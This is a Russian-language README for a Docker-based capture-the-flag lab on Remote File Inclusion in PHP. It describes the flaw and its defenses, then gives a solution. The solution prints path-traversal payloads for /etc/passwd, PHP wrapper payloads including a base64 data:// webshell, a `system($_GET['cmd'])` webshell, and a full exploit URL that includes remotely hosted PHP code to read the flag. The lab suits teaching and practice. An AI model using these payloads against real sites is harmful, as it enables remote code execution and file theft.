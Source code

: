 ## Описание уязвимости
Данная уязвимость позволяет включать в ответ на запрос удалённые файлы(а в некоторых случаях даже их исполнять). Иногда, если удалённые файлы включаются в ответ на запрос RFI может легко перетекать в SSRF.
Данная уязвимость тесно связана с LFI. В большинстве случаев RFI возможна тогда и только тогда, когда возможна и LFI.
Функции в разных языках, которые могут приводить к RFI:
- **PHP**: `include()`/`include_once()`, `file_get_contents()`
- **Java**: `import`
- **.NET**: `@Html.RemotePartial()`, `include`
## Способы защиты
В большинстве случаев, необходимо убрать у пользователей возможность взаимодействовать с файловой системой, но если этого сделать нельзя, то тогда можно попытаться использовать следующие механизмы защиты. 
- Использовать те же самые методы защиты, что и при LFI, так как уже было сказано, что они тесно связаны
- Необходимо выставлять значение переменных allow_url_fopen  или allow_url_include на off в файле php.ini
- Использование WAF
- Использование white листов
- Проверки на содержимое GET-параметров, используемых в уязвимых функциях
## Запуск приложения
Для запуска приложения необходимо:
- скачать репозиторий
- в файле \/etc\/hosts прописать: `10.90.0.110 lang.local`, где вместо `10.90.0.110` должно быть записано содержимое переменной NGINX_IP из файла .env
- зайти в директорию с файлом docker-compose.yaml
- в случае, если необходимо поменять значения переменных окружений в файле .env(данный файл содержит переменные NET_IP, FPM_IP, NGINX_IP, FLAG, где NET_IP задаёт значение IP адреса сети remote-file-inclusion_mynetwork, FPM_IP задаёт IP-адрес контейнера c php-fpm, NGINX_IP задаёт IP адрес контейнера с nginx, а FLAG задаёт флаг; в случае, если на устройстве есть сетевой интерфейс с IP-адресом из файла .env имеет смысл поменять адреса в соответствие с RFC 791)
- в случае, если не нужно менять параметры, зайти из терминала в директорию с конфигурационными файлами и прописать:
```shell
docker-compose up
```
- для завершения необходимо в терминале в той же папке, что и docker-compose.yaml прописать docker-compose down
- в случае, если при новом запуске выводится ошибка подобная `ERROR: Network "remote-file-inclusion_mynetwork" needs to be recreated - IPAM option`, необходимо прописать: `docker network rm remote-file-inclusion_mynetwork` и после этого перейти к шагу 4
- можно также менять значения переменных файле php.ini(например прописав `disable_functions = exec,passthru,system`)
## Описание уязвимости в приложении
Необходимо получить доступ к файлу \/flag.txt.
В данном приложении есть возможность выбора языка, на котором отобразится текст страницы. Реализована данная возможность с помощью передачи GET параметра lang в HTTP запросе к index.php. У пользователя есть возможность обращаться только к файлам index.php и style.css.
Приложение получает GET параметр, обрабатывая его при этом(происходит циклическая проверка на наличие ..\/, различных обёрток и схем(с помощью регулярных выражений)). После этого происходит включение файла, находящегося по пути из переменной $path_to_lang_file:
```php
<?php
	include $path_to_lang_file;
	echo $text;
?>
```
Последовательность действий:
- проверить на наличие уязвимостей типа LFI, path traversal.
- попытаться включить какую-то страницу, например `http://lang.local/`
- создать файл с каким-то php кодом и расположить его на сервере с белым IP, либо создать файл на github
- в качестве значения GET параметра выставить ссылку на этот файл

## Решение
Первые шаги почти такие же, как и в LFI стенде:
В качестве значений GET параметров используем следующие значения:
```http
../../../../../../../../../../../../etc/passwd
..././..././..././..././..././..././..././etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
В результате будет выводиться следующее:
![](./img/photo_5269685033084515456_y.jpg)
Это может навести на мысль о том, что значение заголовка фильтруется.
Можно использовать php обёртки и различные схемы для получения index.php в base64:
`php://filter/convert.base64-encode/resource=./index.php `, `expect://id`, `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`.
![](./img/photo_5269685033084515457_y.jpg)
Но к сожалению обёртки не работают.
Проверим что произойдёт, если в качестве значения GET-параметра передать следующую ссылку:
```http
http://lang.local
```
![](./img/photo_5269685033084515459_y.jpg)
Видно что в ответ на запрос, вернулся страница в странице. Это явно намекает о наличии RFI.
Для эксплуатации создадим файл на github со следующим содержимым:
```php
<?php system($_GET['cmd']);?>
```
ИЛИ
```php
$content = file_get_contents($_GET['file']);
$base64Content = base64_encode($content);
echo $base64Content;
```
Второй payload можно использовать в том случае, если `system`и остальные похожие функции отключены в php.ini.
В конечном итоге можно использовать следующие ссылки:
- для первой полезной нагрузки
```http
https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/payload_1.php
```
- для второй полезной нагрузки
```http
https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/payload_2.php
```
В итоге в поисковую строку передаём:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/payload_1.php&cmd=cat%20/flag.txt
```
Получаем флаг из \/flag.txt.
![](./img/photo_5269685033084515458_y.jpg)
Для тестирования второй полезной нагрузки надо выставить в файле php.ini следующие значения `open_basedir = /app:/usr/local/etc/php/` и `disable_functions = exec,passthru,system`. В противном случае данный payload не имеет смысла.
[LFI_with_sess_poisoning](https://github.com/Truncheon-eng/LFI_with_sess_poisoning)
